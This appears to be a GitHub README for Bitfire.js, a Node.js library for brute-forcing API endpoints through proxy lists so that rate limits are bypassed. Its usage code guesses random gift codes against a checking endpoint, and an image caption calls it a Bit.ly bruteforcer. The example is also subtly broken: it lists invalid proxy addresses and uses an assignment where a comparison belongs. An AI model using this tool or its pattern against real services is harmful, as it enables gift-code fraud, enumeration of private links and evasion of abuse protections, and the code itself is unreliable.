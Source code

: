 # Bitfire.js
Simple Proxy Bruteforcer for Node.js allowing you to perform any api attack (by specifying a function) using proxy lists to bypass any ratelimits using the requests module.

It is my first library, so I don't recommend actually using this in production.

Currently only GET requests can be bruteforced but this can be changed by modifying a line of code.

![alt text](https://i.imgur.com/5orefhi.png "yes")

*Bit.ly Bruteforcer Example*
# Usage
```js
var bitfire = require("bitfire");
function generateCode(){
var nf = "http://example.org/api/giftcodes/check/" + getRandomCode();
return nf;
}
var proxyArray = ["123.293.192:8000","942.323.234.122:8080"];
bitfire.proxyBrute(generateCode(),proxyArray,10,function(error,response,body,code){
if(response.statusCode = 200){
console.log("Found Giftcode: " + code);
process.exit(0);
}
})
```

**bitfire.proxyBrute(function to generate api url to check, array of proxys, interval between requests, callback)**

